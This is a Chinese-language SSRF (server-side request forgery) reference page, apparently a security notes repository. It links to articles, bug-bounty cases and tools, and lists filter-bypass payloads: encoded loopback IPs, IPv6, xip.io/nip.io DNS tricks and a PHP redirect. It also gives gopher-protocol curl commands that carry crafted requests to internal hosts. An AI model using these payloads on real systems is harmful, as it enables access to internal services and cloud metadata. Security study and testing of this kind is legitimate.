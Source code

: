 # SSRF

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**简介**

很多 web 应用都提供了从其他的服务器上获取数据的功能.使用用户指定的 URL,web 应用可以获取图片,下载文件,读取文件内容等.这个功能如果被恶意使用,可以利用存在缺陷的 web 应用作为代理攻击远程和本地的服务器.这种形式的攻击称为服务端请求伪造攻击(Server-side Request Forgery).

一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

**相关文章**
- [浅析 SSRF 原理及利用方式](https://www.anquanke.com/post/id/145519)
- [聊一聊ssrf漏洞的挖掘思路与技巧](https://bbs.ichunqiu.com/thread-49370-1-1.html)
- [Bypassing SSRF Protection](https://medium.com/@vickieli/bypassing-ssrf-protection-e111ae70727b)
- [Gopher协议在SSRF漏洞中的深入研究](https://zhuanlan.zhihu.com/p/112055947)
- [gopher 协议初探](https://www.cnblogs.com/Konmu/p/12984891.html)
- [How to hack a company by circumventing its WAF through the abuse of a different security appliance and win bug bounties](https://www.redtimmy.com/how-to-hack-a-company-by-circumventing-its-waf-through-the-abuse-of-a-different-security-appliance-and-win-bug-bounties/) - 利用 ssrf "借刀杀人"

**相关案例**
- [My First SSRF Using DNS Rebinding](https://geleta.eu/2019/my-first-ssrf-using-dns-rebinfing/)
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876) - 通过对 ssrf 访问 Google Cloud Metadata,直至 RCE
- [SSRF (Server Side Request Forgery) worth $4,913](https://medium.com/techfenix/ssrf-server-side-request-forgery-worth-4913-my-highest-bounty-ever-7d733bb368cb)
- [Just Gopher It: Escalating a Blind SSRF to RCE for $15k](https://sirleeroyjenkins.medium.com/just-gopher-it-escalating-a-blind-ssrf-to-rce-for-15k-f5329a974530)
- [SSRF exploitation in Spreedsheet to PDF converter](https://r4id3n.medium.com/ssrf-exploitation-in-spreedsheet-to-pdf-converter-2c7eacdac781) - excel 中的 ssrf+xxe 读文件
- [The unexpected Google wide domain check bypass](https://bugs.xdavidhu.me/google/2020/03/08/the-unexpected-google-wide-domain-check-bypass/)
- [Fixing the Unfixable: Story of a Google Cloud SSRF](https://bugs.xdavidhu.me/google/2021/12/31/fixing-the-unfixable-story-of-a-google-cloud-ssrf/) - google cloud ssrf + bypass
- https://github.com/httpvoid/writeups/blob/main/Hacking-Google-Drive-Integrations.md

**payload**
- [bugbounty-cheatsheet/cheatsheets/ssrf.md](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/ssrf.md)

**相关工具**
- [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - python 写的 ssrf 参数扫描工具
- [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - 自动化 Fuzz SSRF 开发工具
- [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) - 该工具生成 gopher payload ，以利用 SSRF 并在各种服务器中获得 RCE

**相关资源**
- [cujanovic/SSRF-Testing](https://github.com/cujanovic/SSRF-Testing)

**writeup**
- [buuctf 刷题记录 [第二章 web进阶]SSRF Training](https://www.cnblogs.com/murkuo/p/14905886.html)

---

## 利用方式

- 内部端口扫描
- Leverage cloud services
    - 169.254.169.254
        - https://www.ibm.com/developerworks/cn/cloud/library/1620-openstack-metadata-service/index.html
- reveal IP Address & HTTP Library
    - https://webhook.site/
- Download a very large file (Layer 7 DoS)

---

## 绕过技巧

**Fuzz字典**
- [Fuzz_head](https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/http/Fuzz_head.txt)

**特殊 IP**
```
http://0177.1/
http://0x7f.1/
http://127.000.000.1
https://520968996
```

> The latter can be calculated using http://www.subnetmask.info/

**错误 IP**
```
http://127.1
http://0
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib : 3.3.3.3
http://127.1.1.1:80\@127.2.2.2:80/
```

**IPv6**

```
http://[::1]
http://[::]
http://[::]:80/
http://0000::1:80/
```

**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**DNS 欺骗**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```

> http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

> http://nip.io

**重定向欺骗**
```
<?php header(“location: http://127.0.0.1"); ?>
```

**编码绕过**

这些包括十六进制编码，八进制编码，双字编码，URL 编码和混合编码。

```
127.0.0.1 translates to 0x7f.0x0.0x0.0x1
127.0.0.1 translates to 0177.0.0.01
http://127.0.0.1 translates to http://2130706433
localhost translates to %6c%6f%63%61%6c%68%6f%73%74
```

---

## Gopher

gopher 协议支持发出 GET、POST 请求：可以先截获 get 请求包和 post 请求包，在构成符合 gopher 协议的请求。

gopher 协议是 ssrf 利用中最强大的协议

**格式**
```
gopher://<host>:<port>/<gopher-path>_后接TCP数据流

curl gopher://127.0.0.1:8000/_GET%20test
```

gopher的默认端口是70

如果发起 post 请求，回车换行需要使用 %0d%0a，如果多个参数，参数之间的 & 也需要进行 URL 编码

**发送 get 请求**

如果要发送如下 payload
```
GET /test/get.php?name=test HTTP/1.1
Host: 192.168.1.1
```

那么需要变为如下格式
```
curl gopher://192.168.1.2:80/_GET%20/test/get.php%3fname=test%20HTTP/1.1%0d%0AHost:%20192.168.1.2%0d%0A
```

在 HTTP 包的最后要加 %0d%0a，代表消息结束

**发送 post 请求**

```
POST /test/post.php HTTP/1.1
Host: 192.168.1.1
Content-Type:application/x-www-form-urlencoded
Content-Length:11

name=test
```

那么需要变为如下格式
```
curl gopher://192.168.1.1:80/_POST%20/test/post.php%20HTTP/1.1%0d%0AHost:192.168.1.1%0d%0AContent-Type:application/x-www-form-urlencoded%0d%0AContent-Length:11%0d%0A%0d%0Aname=test%0d%0A
```

**ssrf 中的利用**

```
http://192.168.1.1/test/ssrf.php?url=gopher://192.168.1.2:6666/_abc

# 由于PHP在接收到参数后会做一次URL的解码,所以要在 url 编码一次
http://192.168.1.1/test/ssrf.php?url=gopher%3A%2F%2F192.168.1.2%3A80%2F_GET%2520%2Ftest%2Fget.php%253fname%3Dtest%2520HTTP%2F1.1%250d%250AHost%3A%2520192.168.1.2%250d%250A
```

URL中的／不能进行两次编码，端口号不可以两次编码,协议名称不可两次转码
